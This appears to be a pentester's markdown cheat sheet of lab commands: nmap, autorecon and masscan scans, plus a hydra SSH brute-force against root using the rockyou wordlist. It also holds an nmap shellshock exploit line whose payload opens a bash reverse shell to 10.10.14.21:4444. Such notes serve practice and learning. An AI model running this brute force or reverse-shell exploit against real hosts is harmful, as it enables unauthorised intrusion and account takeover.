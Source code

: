 ###
```
sudo nmap -sV -sC -oA ip 
sudo nmap --script vuln -oA vuln-scan 10.10.10.79
sudo nmapAutomater
sudo autorecon
https://www.stationx.net/nmap-cheat-sheet/


```
```
 python autorecon.py 192.168.29.136 -o 192.168.29.136-2nd --nmap "-p 18080,54445,40873,28022,27017"   
sudo nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=bin/bash /bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" 10.129.1.175
```
```
sudo masscan -p1-65535,U:1-65535 10.10.10.161 --rate=1000 -e tun0
```
### hydra
```
sudo  hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
 ```

https://www.stationx.net/nmap-cheat-sheet/
### Vuln
```
sudo nmap --script vuln -oA vuln-scan 10.10.10.79

```
